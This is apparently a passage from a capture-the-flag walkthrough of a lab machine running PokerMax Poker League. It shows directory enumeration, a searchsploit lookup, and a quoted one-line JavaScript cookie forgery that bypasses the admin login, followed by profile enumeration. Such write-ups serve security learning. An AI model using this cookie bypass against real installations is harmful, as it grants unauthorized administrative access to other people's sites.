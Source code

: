 ```bash
/includes             (Status: 301) [Size: 317] [--> http://192.168.0.107/includes/]
/install              (Status: 301) [Size: 316] [--> http://192.168.0.107/install/]
/javascript           (Status: 301) [Size: 319] [--> http://192.168.0.107/javascript/]
/cards                (Status: 301) [Size: 314] [--> http://192.168.0.107/cards/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://192.168.0.107/phpmyadmin/]
/server-status        (Status: 403) [Size: 301]
Progress: 220560 / 220561 (100.00%)
```

![Pasted image 20240115030031.png|800](/img/user/imgs/Pasted%20image%2020240115030031.png)

PokerMax Installation, interesting

Let's search some exploits for it 

```bash

┌──(root㉿kali)-[/home/kali]
└─# searchsploit PokerMax
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
PokerMax Poker League 0.13 - Insecure Cookie Handli | php/webapps/6766.txt
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```js
//Exploit

javascript:document.cookie = "ValidUserAdmin=admin";


```
Exploit dev states:

>"Go to http://site.com/pokerleague/pokeradmin/configure.php It will ask for login. Now in url tab run the exploit command, then return back to http://site.com/pokerleague/pokeradmin/configure.php"
>

]]![Pasted image 20240115031135.png|850](/img/user/imgs/Pasted%20image%2020240115031135.png)

Pwned

![Pasted image 20240115031207.png](/img/user/imgs/Pasted%20image%2020240115031207.png)
Checking at the player info found valenka

![Pasted image 20240115031236.png](/img/user/imgs/Pasted%20image%2020240115031236.png)


"Player Profile"
```
Project Manager of various client projects on: /vip-client-portfolios/?uri=blog

We are casino-royale.local -- Update your hosts file!
```
